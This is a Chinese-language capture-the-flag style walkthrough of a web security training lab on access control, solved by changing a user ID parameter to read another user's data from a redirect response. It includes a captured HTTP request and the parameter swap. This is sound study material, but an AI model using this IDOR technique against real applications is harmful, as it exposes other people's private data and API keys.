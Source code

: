 In some cases, an application does detect when the user is not permitted to access the resource, and returns a redirect to the login page. However, the response containing the redirect might still include some sensitive data belonging to the targeted user, so the attack is still successful.

### 题目

```
Lab: User ID controlled by request parameter with data leakage in redirect
APPRENTICE

This lab contains an access control vulnerability where sensitive information is leaked in the body of a redirect response.

To solve the lab, obtain the API key for the user carlos and submit it as the solution.

You can log in to your own account using the following credentials: wiener:peter
```

### 答案

我们先登录已知用户 wiener ，抓包观察

```http
GET /my-account?id=wiener HTTP/2
Host: 0a6b006003e710c880f19ef100ef005c.web-security-academy.net
Cookie: session=u3eSSL7mgmODe3qJLuTPRIqPy8g2yRA2
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Referer: https://0a6b006003e710c880f19ef100ef005c.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

再尝试把包发到 bp 的重发器，修改 url 为 `id=carlos`，再重发

虽说显示的 302 跳转，但是仍能在 bp 里拦截到 carlos 用户的主页信息
